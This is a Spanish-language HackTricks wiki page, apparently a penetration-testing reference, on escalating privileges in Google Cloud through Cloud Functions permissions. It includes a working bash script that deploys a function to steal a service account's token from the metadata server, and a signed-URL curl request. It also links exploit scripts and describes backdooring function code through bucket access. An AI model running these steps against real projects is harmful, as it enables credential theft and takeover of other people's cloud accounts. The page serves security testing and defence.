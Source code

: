 # GCP - Cloudfunctions Privesc

{% hint style="success" %}
Learn & practice AWS Hacking:<img src="../../../.gitbook/assets/image (1).png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../.gitbook/assets/image (1).png" alt="" data-size="line">\
Learn & practice GCP Hacking: <img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Support HackTricks</summary>

* Check the [**subscription plans**](https://github.com/sponsors/carlospolop)!
* **Join the** 💬 [**Discord group**](https://discord.gg/hRep4RUj7f) or the [**telegram group**](https://t.me/peass) or **follow** us on **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Share hacking tricks by submitting PRs to the** [**HackTricks**](https://github.com/carlospolop/hacktricks) and [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>
{% endhint %}

## cloudfunctions

Más información sobre Cloud Functions:

{% content-ref url="../gcp-services/gcp-cloud-functions-enum.md" %}
[gcp-cloud-functions-enum.md](../gcp-services/gcp-cloud-functions-enum.md)
{% endcontent-ref %}

### `cloudfunctions.functions.create` , `cloudfunctions.functions.sourceCodeSet`_,_ `iam.serviceAccounts.actAs`

Un atacante con estos privilegios puede **crear una nueva Cloud Function con código arbitrario (malicioso) y asignarle una Service Account**. Luego, filtrar el token de la Service Account desde los metadatos para escalar privilegios a ella.\
Algunos privilegios para activar la función pueden ser requeridos.

Los scripts de explotación para este método se pueden encontrar [aquí](https://github.com/RhinoSecurityLabs/GCP-IAM-Privilege-Escalation/blob/master/ExploitScripts/cloudfunctions.functions.create-call.py) y [aquí](https://github.com/RhinoSecurityLabs/GCP-IAM-Privilege-Escalation/blob/master/ExploitScripts/cloudfunctions.functions.create-setIamPolicy.py) y el archivo .zip preconstruido se puede encontrar [aquí](https://github.com/RhinoSecurityLabs/GCP-IAM-Privilege-Escalation/tree/master/ExploitScripts/CloudFunctions).

### `cloudfunctions.functions.update` , `cloudfunctions.functions.sourceCodeSet`_,_ `iam.serviceAccounts.actAs`

Un atacante con estos privilegios puede **modificar el código de una Function e incluso modificar la cuenta de servicio adjunta** con el objetivo de exfiltrar el token.

{% hint style="danger" %}
Para desplegar funciones en la nube también necesitarás permisos actAs sobre la cuenta de servicio de cómputo predeterminada o sobre la cuenta de servicio que se utiliza para construir la imagen.
{% endhint %}

Algunos privilegios adicionales como el permiso `.call` para la versión 1 de cloudfunctions o el rol `role/run.invoker` para activar la función pueden ser requeridos.
```bash
# Create new code
temp_dir=$(mktemp -d)

cat > $temp_dir/main.py <<EOF
import subprocess

def main(request):
cmd = "curl -s -f -H 'Metadata-Flavor: Google' 'http://metadata/computeMetadata/v1/instance/service-accounts/default/token'"
result = subprocess.check_output(cmd, shell=True, text=True)
return result
EOF

echo "" > $temp_dir/requirements.txt

zip -r $temp_dir/function.zip $temp_dir/main.py $temp_dir/requirements.txt

# Update code
gcloud functions deploy <cloudfunction-name> \
--runtime python312 \
--source $temp_dir \
--entry-point main \
--service-account <sa>@$PROJECT_ID.iam.gserviceaccount.com \
--trigger-http \
--allow-unauthenticated

# Get SA token calling the new function code
gcloud functions call <cloudfunction-name>
```
{% hint style="danger" %}
Si obtienes el error `Permission 'run.services.setIamPolicy' denied on resource...` es porque estás usando el parámetro `--allow-unauthenticated` y no tienes suficientes permisos para ello.
{% endhint %}

El script de explotación para este método se puede encontrar [aquí](https://github.com/RhinoSecurityLabs/GCP-IAM-Privilege-Escalation/blob/master/ExploitScripts/cloudfunctions.functions.update.py).

### `cloudfunctions.functions.sourceCodeSet`

Con este permiso puedes obtener una **URL firmada para poder subir un archivo a un bucket de función (pero el código de la función no se cambiará, aún necesitas actualizarlo)**

{% code overflow="wrap" %}
```bash
# Generate the URL
curl -X POST https://cloudfunctions.googleapis.com/v2/projects/{project-id}/locations/{location}/functions:generateUploadUrl \
-H "Authorization: Bearer $(gcloud auth application-default print-access-token)" \
-H "Content-Type: application/json" \
-d '{}'
```
{% endcode %}

No estoy realmente seguro de cuán útil es solo este permiso desde la perspectiva de un atacante, pero es bueno saberlo.

### `cloudfunctions.functions.setIamPolicy` , `iam.serviceAccounts.actAs`

Dáte cualquiera de los privilegios anteriores **`.update`** o **`.create`** para escalar.

### `cloudfunctions.functions.update`

Solo tener permisos de **`cloudfunctions`**, sin **`iam.serviceAccounts.actAs`** no **podrás actualizar la función ASÍ QUE ESTO NO ES UNA ESCALADA VÁLIDA.**

### Acceso de Lectura y Escritura sobre el bucket

Si tienes acceso de lectura y escritura sobre el bucket, puedes monitorear cambios en el código y cada vez que **ocurra una actualización en el bucket, puedes actualizar el nuevo código con tu propio código** con el que se ejecutará la nueva versión de la Cloud Function con el código de puerta trasera enviado.

Puedes consultar más sobre el ataque en:

{% content-ref url="gcp-storage-privesc.md" %}
[gcp-storage-privesc.md](gcp-storage-privesc.md)
{% endcontent-ref %}

Sin embargo, no puedes usar esto para pre-comprometer Cloud Functions de terceros porque si creas el bucket en tu cuenta y le das permisos públicos para que el proyecto externo pueda escribir sobre él, obtienes el siguiente error:

<figure><img src="../../../.gitbook/assets/image.png" alt="" width="304"><figcaption></figcaption></figure>

{% hint style="danger" %}
Sin embargo, esto podría usarse para ataques de DoS.
{% endhint %}

### Acceso de Lectura y Escritura sobre Artifact Registry

Cuando se crea una Cloud Function, se envía una nueva imagen de docker al Artifact Registry del proyecto. Intenté modificar la imagen con una nueva, e incluso eliminar la imagen actual (y la imagen `cache`) y nada cambió, la función en la nube continuó funcionando. Por lo tanto, tal vez **podría ser posible abusar de un ataque de Condición de Carrera** como con el bucket para cambiar el contenedor de docker que se ejecutará, pero **solo modificando la imagen almacenada no es posible comprometer la Cloud Function**.

## Referencias

* [https://rhinosecuritylabs.com/gcp/privilege-escalation-google-cloud-platform-part-1/](https://rhinosecuritylabs.com/gcp/privilege-escalation-google-cloud-platform-part-1/)

{% hint style="success" %}
Aprende y practica Hacking en AWS:<img src="../../../.gitbook/assets/image (1).png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../.gitbook/assets/image (1).png" alt="" data-size="line">\
Aprende y practica Hacking en GCP: <img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Apoya a HackTricks</summary>

* Revisa los [**planes de suscripción**](https://github.com/sponsors/carlospolop)!
* **Únete al** 💬 [**grupo de Discord**](https://discord.gg/hRep4RUj7f) o al [**grupo de telegram**](https://t.me/peass) o **síguenos** en **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Comparte trucos de hacking enviando PRs a los repositorios de** [**HackTricks**](https://github.com/carlospolop/hacktricks) y [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud).

</details>
{% endhint %}
